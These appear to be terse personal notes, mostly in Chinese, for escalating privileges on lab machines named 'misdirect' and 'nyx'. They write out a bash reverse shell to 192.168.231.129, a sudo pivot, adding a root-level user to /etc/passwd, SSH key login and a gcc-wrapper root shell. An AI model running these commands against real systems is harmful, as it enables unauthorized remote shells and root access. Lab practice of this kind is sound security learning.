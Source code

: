 ```

2. find / -writable -type f ! -path '/proc/*' 2>/dev/null #找可写文件 排除路径扔掉错误信息
找到sh后缀的

```



---



## misdirect

```
bash -c  "/bin/bash -i  >&  /dev/tcp/192.168.231.129/1234 0>&1"

shell迁移 webshell 迁移到本地

 cat /etc/crontab
sudo -l 回显 (brexit) NOPASSWD: /bin/bash
说明brexit这个用户有权限执行/bin/bash
sudo -u brexit /bin/bash 
python -c "import pty;pty.spawn('/bin/bash')"
python 交互shell


.viminfo 敏感信息
.history
通过看viminfo 发现他修改了/etc/passwd 有读写权限
我要 写一个用户覆盖他 且用的是bash命令行
openssl passwd -1 123456

命令行回显不全不要echo
vi file i bee:$1$uapO28qs$xXjQXyO/uAtCEYIQKGdXv.:0:0:root:/root:/bin/bash
esc :wq
```



## nyx

```
获得私钥 主要网页tittle是哪个用户的私钥
vim id_rsa
给权限 sudo 400 
ssh私钥登录
chmod 400 私钥 必须先授权 且权限不能太高
ssh -i 私钥 用户@ip

searchsploit Seagate BlackArmorNAS -p
sudo -l
gcc提权
gcc -wrapper /bin/sh,-s .
```
